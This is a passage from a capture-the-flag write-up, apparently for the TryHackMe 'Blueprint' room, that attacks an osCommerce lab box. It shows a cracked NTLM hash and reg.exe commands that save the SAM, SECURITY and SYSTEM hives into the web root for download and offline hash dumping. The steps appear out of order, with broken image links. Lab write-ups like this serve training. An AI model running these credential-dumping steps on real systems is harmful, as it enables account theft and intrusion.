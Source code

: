 crack NTLM:

![hash](https://deskel.github.io/assets/images/THM/2020-08-14-blueprint/9.png)

grab the NTLM hash for the “Lab” user and crack it with a tool such as [CrackStation](https://crackstation.net/).

The NTML hash password for user Lab is

```
30e87bf999828446a1c1209ddde4c450
```

```
C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes> whoami
```

![window shell](https://deskel.github.io/assets/images/THM/2020-08-14-blueprint/10.png)

We already have the admin privilege and that makes things easy. So, locate the administrator folder and capture the root flag.

However if you keep up with netcat:


In the end the payload look like this

![[4eicrp2c.bmp]]

curl the URL: curl + <*url*>

![[8c6pfd9n.bmp]]

now slowly try to find the root flag by navigating in the directory:

dir C:\\ -> dir C:\\Users\\Administrator -> dir C:\\Users\\Administrator\\Desktop

and you should see the root flag: 

 dir C:\\Users\\Administrator\\Desktop\\root.txt.txt

For the first question we need to do more work. We need to extract the hashes from the target machine. If you try to search how to dump hashes from windows machine you will see methods using Mimikatz, Metasploit and many more sophisticated tools but in reality there is a more convenient, easy and less intrusive method.

To be able to dump the hashes we need 3 hives SAM, SECURITY and SYSTEM

We can get a copy from these hives with the following commands.We can save these copies to _C:\\xampp\\htdocs\\oscommerce-2.3.4\\_

>reg.exe save hklm\sam _C:\\xampp\\htdocs\\oscommerce-2.3.4_\\sam.save

>reg.exe save hklm\security_C:\\xampp\\htdocs\\oscommerce-2.3.4_\\security.save

>reg.exe save hklm\\system _C:\\xampp\\htdocs\\oscommerce-2.3.4_\\system.save

![[isq2i8ib.bmp]]

Because we have access to this directory from our browser on our kali machine we can simply click on them and download these files so we do not need complex methodologies to transfer the files.
